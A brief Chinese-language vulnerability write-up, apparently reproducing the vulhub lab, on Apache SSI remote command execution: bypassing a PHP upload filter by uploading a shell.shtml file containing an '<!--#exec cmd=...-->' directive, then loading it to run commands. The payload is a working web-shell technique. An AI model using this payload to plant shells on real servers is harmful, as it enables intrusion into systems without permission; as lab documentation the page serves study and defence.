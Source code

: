 # Apache SSI 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Apache SSI/Apache SSI 远程命令执行漏洞.html](http://book.iwonder.run/0day/Apache SSI/Apache SSI 远程命令执行漏洞.html)

## 一、漏洞简介

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传 php 后缀的文件。如果目标服务器开启了 SSI 与 CGI 支持，我们可以上传一个 shtml 文件，并利用``语法执行任意命令。

## 二、漏洞影响

## 三、复现过程

正常上传 PHP 文件是不允许的，我们可以上传一个 shell.shtml 文件：

```
<!--#exec cmd="ls" --> 
```

![image](img/aff62b0362c08db501ca5a2ec80ef031.png)

成功上传，然后访问 shell.shtml，可见命令已成功执行：

![image](img/c0cbec43bd83cf05d2056de82c38f2bd.png)

## 参考链接

> [https://vulhub.org/#/environments/httpd/ssi-rce/](https://vulhub.org/#/environments/httpd/ssi-rce/)

